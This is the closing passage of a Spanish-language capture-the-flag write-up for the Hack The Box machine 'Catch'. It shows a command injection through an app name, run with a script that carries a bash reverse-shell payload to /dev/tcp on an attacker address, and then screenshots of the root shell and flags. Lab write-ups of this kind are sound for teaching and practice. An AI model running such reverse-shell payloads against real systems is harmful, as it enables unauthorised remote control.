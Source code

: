 ```bash
❱ ./apk_namejection.sh 'bash -i >& /dev/tcp/10.10.14.90/4450 0>&1'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/catch/450bash_rootRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Tamos! Veamos las flags :P

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/catch/450flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

...

Una muy linda máquina, el tema de las APIs fue entretenido, el cómo aprovechamos el jugueteo de los `.env` muy chévere y el movimiento locochón con lso nombres del APP me gustaron, una buena máquina con conceptos interesantes!

Nos leemos prontico, besitos y a seguir rompiendo de todoooooooooooooooooooooooooo! 😉